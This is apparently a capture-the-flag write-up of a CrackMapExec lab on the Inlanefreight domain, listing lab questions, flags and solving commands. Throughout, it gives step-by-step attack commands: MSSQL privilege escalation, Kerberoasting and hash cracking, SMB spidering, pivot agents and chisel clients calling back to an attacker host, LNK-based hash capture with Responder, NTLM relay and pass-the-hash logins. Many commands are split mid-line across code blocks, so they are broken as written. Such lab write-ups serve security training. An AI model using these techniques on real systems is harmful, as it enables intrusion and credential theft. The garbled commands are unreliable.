
*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### Now lets once again retrieve the 'core_app' tables

> **Lab Question (Page 19)**: What's the content of the file located at "C:\SQL2019\sql_flag.txt"?
>
> **Flag / Answer**: `F1l3$_UsinG_MS$QL`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

still having our privileges escalated. Lets try to execute a simple
command:
```bash
crackmapexec mssql <target-IP> -u engels -p
```
Inlanefreight1998! -x whoami


We are in the database 'svc_mssql', and we can execute command. Lets read
the flag, using the 'type' command (as the shell is cmd-based):


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### the rollback option

```bash
crackmapexec mssql <target-IP> -u engels -p
```
Inlanefreight1998! -x "type C:\SQL2019\sql_flag.txt"


*we can always finish pillaging with rolling back the privilege escalation with
the rollback option:
```bash
crackmapexec mssql <target-IP> -u engels -p
```
Inlanefreight1998! -M mssql_priv -o ACTION=rollback


Now we once again wont be able to obtain neither flag:

*


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### Finding Kerberoastable Accounts

> **Lab Question (Page 21)**: Which account, excluding grace, peter, and service accounts, is vulnerable to Kerberoasting?
>
> **Flag / Answer**: `elieser`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with the credentials
'grace:Inlanefreight01!'
First, we will have to link the domain to the target IP in '/etc/hosts'
```bash
sudo nano /etc/hosts
```
and there we put:
<target-IP> dc01.inlanefreight.htb inlanefreight.htb


Once the domain and IP are linked, we will run the crackmapexec command:
```bash
crackmapexec ldap dc01.inlanefreight.htb -u grace -p
```
'Inlanefreight01!' --kerberoasting kerberoasting.out


*
*

'elieser' is the only usernames which is not mentioned in the question.


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### for krbtgt hash

> **Lab Question (Page 22)**: What's the password for that account?
>
> **Flag / Answer**: `Passw0rd`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets take the hash that was found, and put it in a file 'hash.txt' (or go
for the already existing output file 'kerberoasting.out' similarly to what we did
in 'Finding ASREPRoastable Accounts' section. But this time we want only
'elieser' password'
echo
'$krb5tgs$23$*elieser$INLANEFREIGHT.HTB$inlanefreight.htb/el
ieser*$bae.....58a362' > hash.txt


*
*


Now that the hash is ready in 'hash.txt' – lets get again the wordlist
'rockyou.txt' to the pwnbox.

When both are ready, we are ready to crack the hash. We will use '-m 13100'
for krbtgt hash:
```bash
hashcat -m 13100 hash.txt rockyou.txt
```


*
*


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


*_Figure 22.3 — Lab execution and output verification (Page 22)_*


### what smb shares the user has READ and WRITE access

> **Lab Question (Page 23)**: Which shared folder does this account have READ and WRITE access to?
>
> **Flag / Answer**: `linux01`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

now that we know the credentials 'elieser:Passw0rd' – lets check to
what smb shares the user has READ and WRITE access:
```bash
crackmapexec smb <target-IP> -u elieser -p Passw0rd --shares
```


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


*_Figure 23.2 — Lab execution and output verification (Page 23)_*


### Spidering and Finding Juicy Information in an SMB Share

> **Lab Question (Page 24)**: Which other file, not shown in the example, is available in the IT share?
>
> **Flag / Answer**: `PCNames.txt`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with the credentials
'grace:Inlanefreight01!'.
First lets check the shares we can access with 'grace' account:
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! --
```
shares


*
*

Here is the IT share. Lets take a look in it via the spider feature of
crackmapexec:
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! --
```
spider IT --pattern txt


The file shown here but not on the section's guide example – is 'PCNames.txt'


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


*_Figure 24.2 — Lab execution and output verification (Page 24)_*


*_Figure 24.3 — Lab execution and output verification (Page 24)_*


### default ones)

> **Lab Question (Page 25)**: Use grace credentials to spider in the shared folder Users with the pattern txt. What's the name of the file you found?
>
> **Flag / Answer**: `creds.txt`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the previous questions we can see also the share 'Users'.
So lets simply change the share to 'Users' in the spider-query:
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! --
```
spider Users --pattern txt


Question: Use the spider_plus module to search all shares. In which shared
folder did you find the file powershelltest.ps1?
Answer: Users
Method: lets use 'spider_plus' to run a search on all shares (except some
default ones):
```bash
crackmapexec smb <target-IP> -u grace -p 'Inlanefreight01!'
```
-M spider_plus -o EXCLUDE_DIR=IPC$,print$,NETLOGON,SYSVOL


*
*


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### filtering for 'powershelltest.ps1'

> **Lab Question (Page 26)**: What is the password you found in the powershelltest.ps1 file?
>
> **Flag / Answer**: `Password1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the download flag '--get-file' and then download the
'test/powershelltest.ps1' (the full path we of course know from the previous
question):
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! --
```
share Users --get-file test/powershelltest.ps1
powershelltest.ps1


File was downloaded to our pwnbox as 'powershelltest.ps1'. lets read it:
```bash
cat powershelltest.ps1
```


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


*_Figure 26.3 — Lab execution and output verification (Page 26)_*


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


### Proxychains with CME

> **Lab Question (Page 28)**: Read the flag in the shared folder named flag, on server DC01 (172.16.1.10)
>
> **Flag / Answer**: `U$ing_Pr0xyCh4ins_&_CME`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in here the machine we start is 'MS01', and we need to use to get to
'DC01' which is in an internal network.
we are also provided with the credentials 'grace:Inlanefreight01!'.
We will use 2 methods to solve this question – the first one is via using 'Ligolo',
and the second method is with proxychains+chisel as suggested in the module.
Method 1: Ligolo.
We will download Linux proxy (amd64), and Windows agent (amd64) – both
version 6.2:
```bash
wget https://github.com/nicocha30/ligolo-
```
ng/releases/download/v0.6.2/ligolo-
ng_proxy_0.6.2_linux_amd64.tar.gz -O proxy.gz -q;

```bash
wget https://github.com/nicocha30/ligolo-
```
ng/releases/download/v0.6.2/ligolo-
ng_agent_0.6.2_windows_amd64.zip -O agent.zip -q;
and confirm download


Now that both files are downloaded – first we will set the proxy on the
pwnbox, then we will use crackmapexec to transfer the agent to 'MS01' and
execute it there to establish pivot to 'DC01'.


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


### Lets ready the proxy

Lets ready the proxy:
```bash
sudo ip tuntap add user <pwnbox-user> mode tun ligolo;
sudo ip link set ligolo up;
sudo ip route add 172.16.1.0/24 dev ligolo;
tar -xvf proxy.gz;
```
./proxy -selfcert;


*
*


Now that the proxy is listening on the pwnbox, let get the agent to the 'MS01'.
First lets unzip the 'agent.zip':
```bash
unzip agent.zip
```


*_Figure 29.1 — Lab execution and output verification (Page 29)_*


*_Figure 29.2 — Lab execution and output verification (Page 29)_*


*_Figure 29.3 — Lab execution and output verification (Page 29)_*


### and run

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! --
```
put-file ./agent.exe \\Windows\\Temp\\agent.exe

and run:
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! -x
```
"C:\Windows\Temp\agent.exe -connect <attacker-IP>:11601 -
ignore-cert"


The agent is running.

And the proxy:

Received agent joined. Lets start it:
session
1
start


Tunnel started. We now should have connectivity to 'DC01' – whose IP is
'172.16.1.10'.

Lets confirm connectivity to 'DC01':
ping 172.16.1.10 -c 1


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


*_Figure 30.2 — Lab execution and output verification (Page 30)_*


*_Figure 30.3 — Lab execution and output verification (Page 30)_*


### Lets see what shares we are in

We have a connection!

Lets see what shares we are in:
```bash
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --
```
shares


There is a share called 'flag'.

Lets see what we have got on that share using the spider technique:
```bash
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --
```
spider flag --pattern txt


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


*_Figure 31.3 — Lab execution and output verification (Page 31)_*


### installed on the pwnbox

There is a 'flag.txt' in that share. Lets download it and read it:
```bash
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --
```
share flag --get-file flag.txt flag.txt

```bash
cat flag.txt
```


Method 2: proxychains + chisel.
*we reset the established pivot from method 1*
Lets start by by modifying the '/etc/proxychains.conf', which is already pre-
installed on the pwnbox:
```bash
sudo nano /etc/proxychains.conf
```


And make sure there is proxying through localhost (127.0.0.1) and port 1080
(the 1080 is chisel default, it can be changed if necessary).
We also make sure that we use socks5 (and NOT socks4).

Now that the proxychains.conf is set. Lets prepare the chisel server and chisel
client. We will use chisel version 1.7.7.


*_Figure 32.1 — Lab execution and output verification (Page 32)_*


*_Figure 32.2 — Lab execution and output verification (Page 32)_*


### Lets set the chisel server on our attacking pwnbox

Lets set the chisel server on our attacking pwnbox:
wget
https://github.com/jpillora/chisel/releases/download/v1.7.7/
chisel_1.7.7_linux_amd64.gz -O chisel.gz -q;

gunzip -d chisel.gz;

```bash
chmod +x chisel;
```

./chisel server --reverse;


The chisel server is up and running and awaiting connections.

Now the chisel client, we will use crackmapexec smb to upload it to the target
machine:
wget
https://github.com/jpillora/chisel/releases/download/v1.7.7/
chisel_1.7.7_windows_amd64.gz -O chisel.exe.gz -q;

gunzip -d chisel.exe.gz;
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! --
```
put-file ./chisel.exe \\Windows\\Temp\\chisel.exe;

and then execute it there:
```bash
crackmapexec smb <target-IP> -u grace -p Inlanefreight01! -x
```
"C:\Windows\Temp\chisel.exe client <attacker-IP>:8080
R:socks";


*_Figure 33.1 — Lab execution and output verification (Page 33)_*


### And on the server terminal

*
*


And on the server terminal:

We get a sock listen on port 1080
Now, as we located the flag in the 'Ligolo' method – we will skip to the part of
downloading the flag the reading it:
```bash
sudo proxychains crackmapexec smb 172.16.1.10 -u grace -p
```
Inlanefreight01! --share flag --get-file flag.txt flag.txt;

```bash
cat flag.txt;
```
*important - use sudo here on proxychains!! *


*_Figure 34.1 — Lab execution and output verification (Page 34)_*


*_Figure 34.2 — Lab execution and output verification (Page 34)_*


*_Figure 34.3 — Lab execution and output verification (Page 34)_*


*_Figure 34.4 — Lab execution and output verification (Page 34)_*


### Stealing Hashes

> **Lab Question (Page 35)**: Repeat the steps shown in this section to capture the julio user hash. Attempt to Crack julio's password with Hashcat. Submit the password as the answer.
>
> **Flag / Answer**: `Password1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section, where we have established
pivot to 'DC01' (we will proceed with the 'Ligolo' method) – lets review the
shares once again:
```bash
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! --
```
shares


We can READ & WRITE to the shares 'HR' and 'IT-Tools'.

Now, we will use the module 'SLINKY to write an LNK file to each share. (LNK is
similar to SCF (Shell Command File) – SCF used in the Windows Privilege
Escalation writeup → Interacting with Users section – pages 79-81)
Lets see what it can do first:
```bash
crackmapexec smb -M slinky --options
```


*_Figure 35.1 — Lab execution and output verification (Page 35)_*


*_Figure 35.2 — Lab execution and output verification (Page 35)_*


### pivoting – to 'DC01'

Now lets run the files, we will be using the 'SERVER' and 'NAME' options:
```bash
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M
```
slinky -o SERVER=<attacker-IP> NAME=important


*
*


The LNK file is in place.

Now we will start response in the pwnbox to intercept the NTLMv2 hashes:
```bash
sudo responder -I tun0
```
*tun0 is the pwnbox interface linked to the 'MS01' and as extension due to
pivoting – to 'DC01':

*
*


*_Figure 36.1 — Lab execution and output verification (Page 36)_*


*_Figure 36.2 — Lab execution and output verification (Page 36)_*


*_Figure 36.3 — Lab execution and output verification (Page 36)_*


*_Figure 36.4 — Lab execution and output verification (Page 36)_*


### be intercepted

After several moments – the LNK file in 'DC01' will be triggered, and a hash will
be intercepted:

That is the hash of julio.
Lets put the hash in 'hash.txt' file (via echo (covered more thoroughly in
'Finding Kerberoastable Accounts' section) or nano/vim editor), get the
'rockyou.txt' wordlist – and crack the hash to '-m 5600' value for NTLMv2 hash:
```bash
hashcat -m 5600 hash.txt rockyou.txt
```


*
*

Julio's password is 'Password1'


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


*_Figure 37.3 — Lab execution and output verification (Page 37)_*


### 'CLEANUP'. We will yse the command

> **Lab Question (Page 38)**: Clean the LNK file. Enter DONE when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for the cleanup we will use another option of the 'Slinky' module –
'CLEANUP'. We will yse the command:
```bash
crackmapexec smb 172.16.1.10 -u grace -p Inlanefreight01! -M
```
slinky -o NAME=important CLEANUP=YES


*
*


Question: Use CrackMapExec to create an LNK or .searchConnector-ms file in
the shares and try to relay the NTLMv2 hash to 172.16.1.5. Use the
Administrator hash to connect to 172.16.1.5 and submit the contents of the
flag in c:\relay\flag.txt as the answer.
Answer: R3l4y1nG_Is_Fun
Method: we will use the 'drop-sc' module. Lets see what it can do:
```bash
crackmapexec smb -M drop-sc --options
```


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


### Lets use its options to use the module

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb 172.16.1.0/24 --gen-relay-list relay.txt
```


We have in relay.txt the machine we have to attack – '172.16.1.5'.

Now we can start another type of listener (like 'responder') – 'ntlmrelayx.py'.
we will use the command:
```bash
sudo ntlmrelayx.py -tf relay.txt -smb2support --no-http
```


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


*_Figure 39.3 — Lab execution and output verification (Page 39)_*


### We are in! lets take the flag

*
*

And here is the NTLM hash of the Administrator. lets WinRM connect to
'172.16.1.5' using pass the hash technique.

```bash
evil-winrm -i 172.16.1.5 -u administrator -H
```
30b3783ce2abf1af70f77d0660cf3453


We are in! lets take the flag:
```bash
cat c:\relay\flag.txt
```


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


*_Figure 40.3 — Lab execution and output verification (Page 40)_*


*_Figure 40.4 — Lab execution and output verification (Page 40)_*


### Mapping and Enumeration with SMB

> **Lab Question (Page 41)**: Which service account other than julio and svc_workstations appears as logged-on in the target machine?
>
> **Flag / Answer**: `svc_mssql`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this section we are provided with the credentials 'robert:
Inlanefreight01!'.
Now, as the hint in the question implies – service accounts might take a minute
or 2 to initialize, so we will wait 2 minutes, and run the command:
```bash
crackmapexec smb <target-IP> -u robert -p Inlanefreight01! -
```
-loggedon-users


Question: Enumerate all computers and identify the one missing in the section
example. Submit the computer name as the answer (include the symbol $).
Answer: linux01$
Method: we use the following command:
```bash
crackmapexec smb <target-IP> -u robert -p Inlanefreight01! -
```
-computers


'linux01$' is the only computer which does not appears in the section's guide.


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


> **Lab Question (Page 42)**: What's the letter of the disk not present in the example?
>
> **Flag / Answer**: `K`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we use the following command:
```bash
crackmapexec smb <target-IP> -u robert -p Inlanefreight01! -
```
-disks


'K' is the only disk which does not appears in the section's guide.

Question: Up to how many RIDs does --rid-brute list by default?
Answer: 4000
Method: from the section's guide: 'By default, --rid-brute enumerate objects brute
forcing RIDs up to 4000.'

Question: What's the RID of the object Flag?
Answer: 3103
Method: we will use the following command:
```bash
crackmapexec smb <target-IP> -u robert -p Inlanefreight01! -
```
-rid-brute | grep -i flag


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


### LDAP and RDP Enumeration

> **Lab Question (Page 43)**: Which account other than the Guest account does not require a password?
>
> **Flag / Answer**: `jorge`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing with 'robert: Inlanefreight01!' credentials from the
previous section – we run the command:
```bash
crackmapexec ldap <target-IP> -u robert -p Inlanefreight01!
```
--password-not-required


Question: To which shared resource does the account that does not have a
password have Write and Read access?
Answer: linux01
Method: let's get the shares list with 'jorge' user:
```bash
crackmapexec smb <target-IP> -u 'jorge' -p '' --shares
```


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


### First lets see to what shares 'svc_gmsa$' can access

> **Lab Question (Page 44)**: Identify to which GMSA account jorge has access to read the password.
>
> **Flag / Answer**: `svc_gmsa$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the command:
```bash
crackmapexec ldap <target-IP> -u 'jorge' -p '' --gmsa
```


Question: Use the service account you found to access the shared folder
serviceaccount and read the flag.
Answer: Us1nG_S3rv1C3_4Cco7nts_H@$sh4S
Method: as in the previous question we only obtained the hash (and
attempting to crack it with 'rockyou' won't wotk) – we will use 'pass the hash'
to login to the smb server.

First lets see to what shares 'svc_gmsa$' can access:
```bash
crackmapexec smb <target-IP> -u svc_gmsa$ -H
```
9a143170b2acc30f09001da26c17cf38 --shares


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


### Lets see where is the flag in there

'svc_gmsa$' has the READ permissions of 'serviceaccount' share.

Lets see where is the flag in there:
```bash
crackmapexec smb <target-IP> -u svc_gmsa$ -H
```
9a143170b2acc30f09001da26c17cf38 --spider serviceaccount --
pattern txt


Here is the flag, lets take it:
```bash
crackmapexec smb <target-IP> -u svc_gmsa$ -H
```
9a143170b2acc30f09001da26c17cf38 --share serviceaccount --
get-file flag.txt flag.txt
and read it:
```bash
cat flag.txt
```


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


### 'Julio:Password1' credentials

> **Lab Question (Page 46)**: Use --screenshot to take a picture using Julio / Password1 creds, then submit DONE as the answer when finished.
>
> **Flag / Answer**: `DONE`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will the following command to take RDP screenshot using
'Julio:Password1' credentials:
```bash
crackmapexec rdp <target-IP> -u Julio -p Password1 --
```
screenshot


We are given the screenshot path, lets open it with the browser:


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


*_Figure 46.2 — Lab execution and output verification (Page 46)_*


### 'Password99!' lets try to execute 'whoami' first

> **Lab Question (Page 47)**: Use reg to change the LocalAccountTokenFilterPolicy to 1 and try to execute commands as localadmin:Password99!. Submit the flag located on the localadmin desktop.
>
> **Flag / Answer**: `N0_M0r3_FilT3r$`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this question we are provided the credentials
'Administrator:AnotherC0mpl3xP4$$'.
Our task is to execute commands as 'localadmin' with the password
'Password99!' lets try to execute 'whoami' first:
```bash
crackmapexec smb <target-IP> -u localadmin -p Password99! --
```
local-auth -x whoami


*
*

Nothing.. it seems command execution is disabled for the 'localadmin'.

So lets use the 'Administrator' account to enable command execution, we will
do that with the following command:
```bash
crackmapexec smb <target-IP> -u Administrator -p
```
'AnotherC0mpl3xP4$$' --local-auth -x "reg add
HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYST
EM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


*_Figure 47.3 — Lab execution and output verification (Page 47)_*


### Lets try to re-execute the 'whoami' with the 'localadmin'

> **Lab Question (Page 48)**: Use proxychains to connect to the DC IP 172.16.1.10 and try to login with robert's credentials via SMB. Does robert have privileges to execute commands via SMB? (True or False)
>
> **Flag / Answer**: `False`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this question we are instructed to use the credentials of
'robert:Inlanefreight01!'. We need to establish pivoting to 'DC01' (172.16.1.10)
through the target machine 'MS01'. We will use 'Ligolo' in the same manner we
did in 'Proxychains with CME' section. The detailed instruction to set the
'Ligolo' pivoting is in that section and will not be repeated here.

Now, when the pivoting is established, lets try to run a command on 'DC01' as
'robert':
```bash
crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight01!'
```
-x whoami


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


*_Figure 48.2 — Lab execution and output verification (Page 48)_*


> **Lab Question (Page 49)**: Use proxychains to connect to the DC IP 172.16.1.10 and try to login with robert's credentials via WINRM. Submit the flag located in robert's desktop.
>
> **Flag / Answer**: `R0bert_G3tting_4cc3S`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing with 'robert' credentials and the established pivoting to
